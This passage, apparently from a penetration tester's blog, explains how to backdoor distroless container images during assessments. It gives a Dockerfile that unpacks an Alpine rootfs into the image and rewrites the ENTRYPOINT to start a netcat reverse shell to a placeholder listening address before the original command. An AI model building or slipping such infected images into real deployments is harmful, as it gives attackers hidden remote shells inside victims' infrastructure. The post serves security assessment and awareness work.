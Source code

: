 
## What about distroless images?

The above PoC demonstrates how to infect a container image based on a full Linux distribution (sometimes referred to as “distrofull”), and it might be tempting to believe that distroless images could be an efficient solution to prevent this kind of attack.

Distroless images are container images that only contain the developer’s application and its required dependencies, as well as the runtime environment necessary to run it (e.g. a Python interpreter for a Python application, a Java Virtual Machine for a Java application, etc.).

Personally, I am a strong advocate of distroless images as they almost remove the entire attack surface introduced by system packages, which are not even necessary in the first place. From an attacker’s perspective, having to live off the land in a compromised container with literally no tool is a lot harder than having a full Linux distribution loaded with everything needed. Additionally, the use of distroless images removes the necessity and pain of dealing with vulnerabilities in system packages (apart from the runtime environment), while allowing dev teams to shift left and focus on securing their source code instead (see [here](https://www.emiliensocchi.io/managing-vulnerabilities-in-software-containers-how-to-avoid-common-pitfalls/) for more information).

You might have noticed that the above PoC relies on the package manager of the Linux distribution to install the screen and netcat utilities. It might be tempting to think that removing the package manager by going distroless would be enough to prevent image infections.

However, it is important to keep in mind that any container image can be extended in any way we like.  In most assessments, I am interested in acquiring a foothold in multiple places of a container-based infrastructure, to attack it from different places. My goal is therefore to infect images with reverse shells and make sure they contain a set of satisfying tools to conduct further attacks once the shells start calling home.

My approach to infect a distroless image consists therefore of extending it with a full Linux distribution (usually Alpine) and infect it with a reverse shell, similar to what we have demonstrated above. The idea is to include a full ecosystem in the image that we can live off of to conduct further attacks, once we have acquired a shell.

The steps are exactly the same as the ones above, except that we use the following Dockerfile to create an infected version of a distroless image:

```shell
FROM <name_of_image_to_infect>
ADD alpine-minirootfs-3.14.2-x86_64.tar.gz /
RUN apk add screen
ENTRYPOINT screen -d -m nc <listening_address> <listening_port> -e /bin/sh && <original_ENTRYPOINT_command> <original_CMD_command>
```

As you can see, the second instruction is what makes the distroless image distrofull, by including all the files making up the Alpine Linux distribution into the root directory of the distroless image (the compressed tarball can be found [here](https://github.com/alpinelinux/docker-alpine/tree/6046c206b93945695d9c3efedcafe629a327fd85/x86_64)). Note that the ADD instruction automatically unpacks tarballs compressed in a recognized compression format as a directory.

The rest of the Dockerfile is similar to the one used for distrofull images, although it is worth noticing that the insecure version of netcat is already included in Alpine Linux, so we do not need to install it.
